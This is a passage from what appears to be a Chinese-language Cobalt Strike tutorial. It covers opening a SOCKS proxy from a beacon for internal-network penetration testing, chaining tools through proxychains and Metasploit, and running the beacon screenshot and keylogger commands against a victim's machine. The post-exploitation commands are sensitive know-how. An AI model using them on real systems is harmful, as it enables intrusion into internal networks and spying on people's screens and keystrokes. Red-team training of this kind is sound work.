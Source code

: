 可以直接开启socks4a代理，可以通过代理进行内网渗透测试。

开启socks

```
beacon>socks 9999

```

> 这里可以选择其中一台，右键Pivoting->SOCKS Server，则使用此台计算机开启socks代理。

配置proxychains.conf，添加

```
socks4 127.0.0.1 9999

```

然后就可以通过proxychains 使用各种工具做内网渗透了。

或者直接开启隧道使用msf，依次点击View->Proxy Pivots，选择Socks4a Proxy,点击Tunnel:

![Alt text](http://drops.javaweb.org/uploads/images/88e74afb46dc9ccf94b21fe585cb30f11aea7e05.jpg)

复制以后，在msf中执行，则可以开启代理：

![Alt text](http://drops.javaweb.org/uploads/images/468c46c1d9a0578dd908b31eabed7a6b15c4e8b4.jpg)

关闭socks

```
beacon>socks stop

```

0x053 Screenshot&Keylogger
--------------------------

这里的screenshot可以截取受害者一定时间的屏幕截图，操作命令为：

```
beacon>screenshot [pid] <x86|x64> [run time in seconds]

```

或者

```
beacon>screenshot

```

然后打开View->Screenshots，则可以看到屏幕截图：

![Alt text](http://drops.javaweb.org/uploads/images/d8b1731f6263a7043140ba6b4a61107039240a5d.jpg)

键盘记录器的使用方式为：

```
Use: keylogger [pid] <x86|x64>

```
